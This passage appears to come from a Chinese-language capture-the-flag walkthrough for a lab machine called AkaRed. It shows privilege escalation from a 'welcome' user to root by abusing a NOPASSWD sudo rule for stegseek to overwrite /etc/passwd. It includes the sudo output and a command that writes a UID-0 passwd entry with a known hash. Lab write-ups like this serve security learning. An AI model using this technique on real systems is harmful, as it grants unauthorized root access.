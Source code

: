 成功切换到 `welcome` 用户。

## 4. 权限提升 (welcome -> root)

此阶段目标是从 `welcome` 用户提升到 `root` 用户。

### 4.1. 以 welcome 身份进行信息收集 (Enumeration as welcome)

检查 `welcome` 用户的 `sudo` 权限。

```bash
welcome@AkaRed:/opt$ sudo -l
Matching Defaults entries for welcome on AkaRed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User welcome may run the following commands on AkaRed:
    (ALL : ALL) NOPASSWD: /usr/local/bin/stegseek
```

关键发现：用户 `welcome` 可以 **无需密码** (`NOPASSWD`) 以 **任何用户** (`ALL : ALL`) 的身份运行 `/usr/local/bin/stegseek` 命令。`stegseek` 是一个用于破解 `steghide` 隐写密码并提取隐藏文件的工具。其 `-xf <outfile>` 选项允许将提取的文件写入指定路径，这是一个潜在的提权向量。

### 4.2. 利用策略 (Exploitation Strategy)

利用 `sudo stegseek` 的 `-xf` 选项覆盖 `/etc/passwd` 文件，从而添加一个自定义的 root 用户。

1.  **在攻击者机器上：**
    *   创建一个包含自定义 root 用户条目的文件 (`malicious_passwd`)。该条目使用已知的密码哈希。
    *   使用 `steghide` 将此文件隐藏到一个图片 (`1.jpg`) 中，并设置一个简单的密码（如 "123456"）。
    *   启动 Web 服务器以托管此图片。
2.  **在目标机器上 (以 welcome 用户身份)：**
    *   下载包含恶意 `passwd` 条目的图片。
    *   创建一个包含 `steghide` 密码 ("123456") 的文件。
    *   使用 `sudo /usr/local/bin/stegseek <image_file> <password_file> -xf /etc/passwd` 命令，强制 `stegseek` 将隐藏的文件提取并覆盖到 `/etc/passwd`。
    *   使用新添加的 root 用户名和对应密码进行 `su` 登录。

### 4.3. 构造利用代码 (Attacker Machine)

1. **创建恶意 passwd 文件 (`malicious_passwd`)**:

   *   创建一个新用户 `a`，UID 和 GID 均为 0 (root 权限)。
   *   设置一个已知的密码哈希。这里使用 `$1$user3$rAGRVf5p2jYTqtqOW5cPu/` (假设攻击者知道其对应的明文密码，例如 'pass123')。

   ```bash
   ┌──(kali㉿kali)-[~/test]
   └─$ echo 'a:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:root:/root:/bin/bash' > malicious_passwd 
   ```

2. **准备载体图片 (`1.jpg`)**:

   ```bash
   ┌──(kali㉿kali)-[~/test]
   └─$ cp ~/Pictures/1.jpg . # 复制一个任意的 JPG 图片
   ```
